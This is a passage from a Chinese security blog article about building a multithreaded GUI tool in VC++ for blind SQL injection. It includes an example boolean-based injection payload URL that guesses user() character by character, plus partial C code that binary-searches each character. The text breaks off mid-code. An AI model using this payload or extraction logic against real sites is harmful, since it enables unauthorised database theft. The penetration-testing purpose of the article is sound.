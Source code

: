 # VC编写多线程sql盲注工具.doc

对于白帽子来说，最钟爱的`SQL`注入工具莫过于`sqlmap`。随着攻防对抗的升级，`sql`注入漏洞呈明显下降的趋势，同时也呈现出难发现、难利用的特点。在实际测试的时候发现，有时明明手工确认的注入，丢进`sqlmap`确无法识别出来。于是乎就有了各种`py`脚本来跑数据。通常找到一个注入在`sqlmap`识别不出或者无法跑出数据的情况下，到处找合适的脚本，然后再修改，如果对PY脚本熟悉，可能也来的快，但是假如对`PY`脚本不是很熟悉，每次必然花费大量精力和时间在此上面。因此在常用工具无法识别`SQL`注入或者无法跑出数据的时候，用`VC`做一个通用`GU`I框架，采用半自动、多线程并发的方式来进行`SQL`盲注，就显得既方便又节约时间。程序界面设计如图（只为功能，不求美观）：

![enter image description here](http://drops.javaweb.org/uploads/images/e22142b490126254594addcada731020418362ea.jpg)

如果常用的比较强大的注入工具能识别、能跑出数据当然就不需要该工具，也就当其他工具无法识别，我们也能构造出`payload`证明注入的存在时，这时候我们只需将构造好的`payload`填入工具的参数里，让工具帮我们自动出数据，这是工具的设计初衷。通常`sql`注入有两种请求数据方式一种是`get`,一种是`post`。存在注入的参数一般在请求的`url`中或者`post`的`data`数据中，我们将分两种情况来设计该注入工具。

0x00 GET方式注入
============

* * *

对于此方式，注入参数在URL地址里，我们需要填好`URL`和页面差异字符串就可以了。比如我们在测试的时候，找到一个注入点，并且构造好了出数据的注入语句类似如下：

```
http://a.abc.com/abc"+if((ascii(mid(user(),1,1))>1),"d",1)+"ef/

```

这里通过改变`mid`第二个参数的值可以遍历猜解`user()`的每个字符，这样就有两个变量了，这是其中一个，这里命名为`A`，`A`的取值在于`USER`的长度比如1-20。另一个就是`>`后面的数字，命名为`B`，`B`的取值范围设为32-126,这个范围包含了所有可见字符的`ASC`码，通过改变该数字`B`我们就可以得到对应的每个正确的字符。通常情况下我们构造的注入语句如果为真即`ascii(mid(user(),1,1))>1`成立，那么返回正常页面，如果不成立返回其他页面。我们把正常页面里有而异常页面里没有的一个字符串作为`keyword`。比如访问`http://a.abc.com/abc"+if((ascii(mid(user(),1,1))>100),"d",1)+"ef/`后返回正常页面包含`keyword`，访问`http://a.abc.com/abc"+if((ascii(mid(user(),1,1))>101),"d",1)+"ef/`后返回异常页面没有`keyword`，这样我们就判断出`ascii(mid(user(),1,1))=101`。

那么我们设计程序的时候我们把`A``B`两个变量用`*`代替以告诉程序它们是需要改变的，把`keyword`也提交给程序，告诉它得到`keyword`的时候就表示访问的页面里的注入语句为真，否则为假。这样就可以让程序自动循环遍历所有的其他字符了。由于涉及循环里面界面显示的问题，所以猜解函数务必要放到线程里面，否则界面会卡死。

为了减少猜解时间，这里我们采用二分法查找数据（由于业余编程，代码只为实现功能，编码不好，请谅解），其关键代码如下：

```
left=32; //设置二分法查找初始值，范围就是可见字符的ASC码范围

right=126;
while((right-left)!=1) 

//二分法查找，当某次命中目标时，由于是（假如）
//用>判断，所以值域范围将左移到左边中间点，接
//着再慢慢向右移动，由于是二分取整操作，那么直//到left、 right差为1的时候 判断会结束，这时right
//就是最终值了。<号时 相反 最终取值left。

{
strcpy(url,ysurl);  //用指针来操作字符串，有点臃肿
p1=strstr(url,"*");
*p1='\0';
p1=strstr(ysurl,"*");
p1++;
char buf[3];
itoa(i,buf,10);   //猜解第i位
strcat(url,buf);
strcat(url,p1);  //这部分定位2个*的位置 并处理好URL，
p1=strstr(url,"*");
*p1='\0';
p1=strstr(ysurl,"*");
p1++;
p1=strstr(p1,"*");
p1++;
j=(left+right)/2;
itoa(j,buf,10);
strcat(url,buf);
strcat(url,p1);
```